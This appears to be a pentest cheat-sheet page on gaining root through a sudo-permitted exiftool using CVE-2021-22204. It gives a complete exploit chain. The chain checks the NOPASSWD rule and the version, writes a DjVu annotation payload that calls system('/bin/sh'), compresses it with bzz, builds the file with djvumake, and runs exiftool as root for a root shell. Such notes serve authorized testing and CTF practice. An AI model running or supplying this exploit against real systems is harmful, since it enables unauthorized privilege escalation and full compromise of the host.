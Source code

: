 ```yaml
---
title: Sudo Exiftool Privilege Escalation
description: Sudo exiftool command might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

```sh
(root) NOPASSWD: /usr/local/bin/exiftool
```

If we can execute **"exiftool"** command as root, we can gain access to privileges.

<br />

## Arbitrary Code Execution (CVE-2021-22204) version 7.44+

Reference: [https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/](https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/)


Check the exiftool version.  
If the exiftool version is later than **7.44**, we can execute arbitrary code.

```bash
exiftool -ver
```

### Exploitation

In local machine, create the payload in a file named **“exploit”**.

```bash
(metadata "\c${system('/bin/sh')};")
```

Next, compress the file.

```bash
bzz exploit exploit.bzz
```

Then create the DjVu file using the compressed file.

```bash
sudo apt install -y djvulibre-bin
# INFO: Create the initial information chunk.
# BGjp: Create a JPEG background chunk.
# ANTz: Write the compressed annotation chunk with the input file.
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=exploit.bzz
```

Now we have **“exploit.djvu”** file.   
Trasfer the file to the target machine and run exiftool as root given the DjVufile.

```bash
sudo /usr/local/bin/exiftool exploit.djvu
```

We should get a root shell.